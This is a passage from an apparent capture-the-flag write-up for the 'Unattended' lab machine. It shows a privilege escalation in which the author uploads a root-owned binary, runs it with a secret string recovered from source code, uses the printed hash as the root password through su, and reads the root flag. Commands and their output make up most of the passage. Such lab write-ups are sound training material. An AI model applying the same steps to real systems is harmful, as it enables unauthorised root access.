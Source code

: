 Also, `c0m3s3f0ss34nt4n1` = `comesefosseantani` and the box creator is Italian...

I don't have access to run this on the box itself:

```
guly@unattended:~$ /sbin/uinitrd
-bash: /sbin/uinitrd: Permission denied
guly@unattended:~$ ls -l /sbin/uinitrd
-rwxr-x--- 1 root root 933240 Dec 20 16:50 /sbin/uinitrd
```

Running it locally on my VM I get more Italian:

```
# ./uinitrd
supercazzola
```

Let's see what happens if I upload my copy to the server and execute it:

```
root@ragingunicorn:~/htb/unattended# scp -6 tmp/sbin/uinitrd guly@\[dead:beef::250:56ff:feb2:7bc2\]:unitrd
uinitrd
```

I get some SHA-1 output when I run the binary. The output changes depending on the string I pass as argument:

```
guly@unattended:~$ ./unitrd
c26625fb20563604795b161c6f64b41539e3ec63

guly@unattended:~$ ./unitrd 123
772fdeb165b85e3f395b903c57014f4c6c0ab133

guly@unattended:~$ ./unitrd 123456
d98e9572902fce6c98942ffab1bbd3a6d51ff31c

guly@unattended:~$ ./unitrd 123456
d98e9572902fce6c98942ffab1bbd3a6d51ff31c
```

Those look like SHA1 hashes but I don't know what they mean. I tried the first one as the root password but it didn't work.

However when I ran the program with the `c0m3s3f0ss34nt4n1` argument, I was able to `su` as root with the hash I got:

```
guly@unattended:~$ ./unitrd c0m3s3f0ss34nt4n1
132f93ab100671dcb263acaf5dc95d8260e8b7c6
guly@unattended:~$ su -
Password:
root@unattended:~# id
uid=0(root) gid=0(root) groups=0(root)
root@unattended:~# cat root.txt
559c0e...
```
